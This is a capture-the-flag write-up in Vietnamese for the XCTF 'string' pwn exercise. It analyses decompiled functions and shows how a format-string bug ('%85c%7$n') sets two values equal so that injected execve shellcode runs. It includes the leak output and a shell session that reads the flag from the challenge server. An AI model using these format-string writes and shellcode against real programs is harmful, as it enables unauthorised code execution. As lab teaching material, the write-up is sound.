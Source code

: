 # XCTF - PWN Exercise - string

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/9_string λ checksec string 
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/9_string/string'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Vì code bài này khá dài nên mình sẽ không để toàn bộ code decompiler ở đây mà sẽ đi vào từng functions và phân tích chức năng và liên hệ giữa các functions qua trình dịch ngược IDA64 từ đó đưa ra khai thác. Bắt đầu từ hàm `main`.

```c
#include<stdio.h>

...

__int64 __fastcall main(int a1, char **a2, char **a3)
{
  _DWORD *v4; // [rsp+18h] [rbp-78h]

  setbuf(stdout, 0LL);
  alarm(0x3Cu);
  sub_400996(60LL);

  v4 = malloc(8uLL);
  *v4 = 68;
  v4[1] = 85;

  puts("we are wizard, we will give you hand, you can not defeat dragon by yourself ...");
  puts("we will tell you two secret ...");
  printf("secret[0] is %x\n", v4);
  printf("secret[1] is %x\n", v4 + 1);
  puts("do not tell anyone ");

  sub_400D72(v4);
  
  puts("The End.....Really?");
  return 0LL;
}
```

Chúng ta quan tâm tới con trỏ v4 được cấp phát động, `v4 = 68` và `v4[1] = 85` và tương ứng với `secret[0]` và `secret[1]` được in ra là địa chỉ của `v4[0]` và `v4[1]`. Tiếp theo là hàm `sub_400D72` với đối số là v4.

```c
#include<stdio.h>
...
unsigned __int64 __fastcall sub_400D72(__int64 a1)
{
  char s[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("What should your character's name be:");
  _isoc99_scanf("%s", s);
  
  if ( strlen(s) <= 0xC )
  {
    puts("Creating a new player.");
    sub_400A7D();
    sub_400BB9();
    sub_400CA6(a1);
  }
  else
  {
    puts("Hei! What's up!");
  }
  return __readfsqword(0x28u) ^ v3;
}
...
```

Nhập `s` có độ dài nhỏ hơn 0xC, sau đó ta lần lượt phân tích ba hàm.

```c
#include<stdio.h>
...
unsigned __int64 sub_400A7D()
{
  char s1[8]; // [rsp+0h] [rbp-10h] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts(" This is a famous but quite unusual inn. The air is fresh and the");
  puts("marble-tiled ground is clean. Few rowdy guests can be seen, and the");
  puts("furniture looks undamaged by brawls, which are very common in other pubs");
  puts("all around the world. The decoration looks extremely valuable and would fit");
  puts("into a palace, but in this city it's quite ordinary. In the middle of the");
  puts("room are velvet covered chairs and benches, which surround large oaken");
  puts("tables. A large sign is fixed to the northern wall behind a wooden bar. In");
  puts("one corner you notice a fireplace.");
  puts("There are two obvious exits: east, up.");
  puts("But strange thing is ,no one there.");
  puts("So, where you will go?east or up?:");
  while ( 1 )
  {
    _isoc99_scanf("%s", s1);
    if ( !strcmp(s1, "east") || !strcmp(s1, "east") )
      break;
    puts("hei! I'm secious!");
    puts("So, where you will go?:");
  }
  if ( strcmp(s1, "east") )
  {
    if ( !strcmp(s1, "up") )
      sub_4009DD();
    puts("YOU KNOW WHAT YOU DO?");
    exit(0);
  }
  return __readfsqword(0x28u) ^ v2;
}
...
```

Hàm thứ nhất `sub_400A7D`, chỉ cần nhập `east` để đi tiếp đến các hàm sau.

```c
#include<stdio.h>
...
unsigned __int64 sub_400BB9()
{
  int v1; // [rsp+4h] [rbp-7Ch] BYREF
  __int64 v2; // [rsp+8h] [rbp-78h] BYREF
  char format[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v4; // [rsp+78h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  v2 = 0LL;
  puts("You travel a short distance east.That's odd, anyone disappear suddenly");
  puts(", what happend?! You just travel , and find another hole");
  puts("You recall, a big black hole will suckk you into it! Know what should you do?");
  puts("go into there(1), or leave(0)?:");
  _isoc99_scanf("%d", &v1);
  if ( v1 == 1 )
  {
    puts("A voice heard in your mind");
    puts("'Give me an address'");
    _isoc99_scanf("%ld", &v2);          
// nhap 1 dia chi tai v2 o day, sau do thay doi gia tri dc luu tru trg dia chi nay thong qua lo hong chuoi dinh dang
    puts("And, you wish is:");
    _isoc99_scanf("%s", format);
    puts("Your wish is");
    printf(format);
    puts("I hear it, I hear it....");
  }
  return __readfsqword(0x28u) ^ v4;
}
...
```

Hàm thứ hai `sub_400BB9`, sau khi nhập `1` là giá trị của `v1` ta thấy `printf(&format, & format)` => chúng ta có thể sử dụng lỗ hổng của chuỗi định dạng. Chúng ta có thể nhập một địa chỉ tại `v2` ở trên, và sau đó thay đổi giá trị được lưu trữ trong địa chỉ này thông qua lỗ hổng chuỗi định dạng.

```c
#include<stdio.h>
...
unsigned __int64 __fastcall sub_400CA6(_DWORD *a1)
{
  void *v1; // rsi
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Ahu!!!!!!!!!!!!!!!!A Dragon has appeared!!");
  puts("Dragon say: HaHa! you were supposed to have a normal");
  puts("RPG game, but I have changed it! you have no weapon and ");
  puts("skill! you could not defeat me !");
  puts("That's sound terrible! you meet final boss!but you level is ONE!");
  if ( *a1 == a1[1] )
  {
    puts("Wizard: I will help you! USE YOU SPELL");
    v1 = mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
    read(0, v1, 0x100uLL);
    ((void (__fastcall *)(_QWORD))v1)(0LL);
  }
  return __readfsqword(0x28u) ^ v3;
}
...
```

Hàm thứ ba `sub_400CA6(a1)`, đối số `a1` chính là con trỏ kiểu int `v4` ở hàm main, là địa chỉ nơi lưu trữ giá trị 65. Đọc nội dung trong hàm if cụ thể là chương trình sẽ đọc 1 chuỗi bằng con trỏ `v1` sau đó sẽ trỏ tới vị trí bắt đầu của chuỗi đó => có thể sử dụng shellcode tại `v1` này. 

Vấn đề là để thực thi nội dung trong if ta cần `*a1 == a1[1]` hay chính là `v4[0] = v4[1]`. Ta thấy hàm thứ hai `sub_400BB9` có lỗi `format-string`, từ đó có thể dùng lỗi fmt để làm v4[0] và v4[1] bằng nhau. 

Bây giờ những việc cần làm.
    +) Tìm xem biến `v2` của hàm `Hàm thứ hai sub_400BB9` là parameter thứ mấy.
    +) Sử dụng lỗi `Format string` của biến `format` để ghi đè giá trị v4[0] và v4[1] bằng nhau.
    +) Gửi shellcode x86_64 nữa là có thể lấy được flag. (shellcode execve(/bin/sh, 0, 0) x86_64 có rất nhiều trên mạng).
    
```
A voice heard in your mind
'Give me an address'
128
And, you wish is:
AAAAAAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
Your wish is
AAAAAAAA-0x7fba55b82723-(nil)-0x7fba55aa3077-0xd-(nil)-0x100603018-0x80-0x4141414141414141-0x252d70252d70252d-0x2d70252d70252d70I hear it, I hear it....
Ahu!!!!!!!!!!!!!!!!A Dragon has appeared!!
```

0x80 = 128, v2 nằm ở parameter thứ 7 trên stack. Bây giờ khi nhập v2 ta sẽ nhập địa chỉ được in ra ở secret[0] - địa chỉ của v4[0], sau đó nhập chuỗi `format` là `%85c%7$n` với 85 là giá trị của `v4[1]`.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/9_string λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 60918: Done
31858704
[*] Switching to interactive mode

$ ls
bin
dev
flag
lib
lib32
lib64
string
$ cat flag
cyberpeace{18a12ffd12d25b6047764f255f5fd3a1}
$  
```
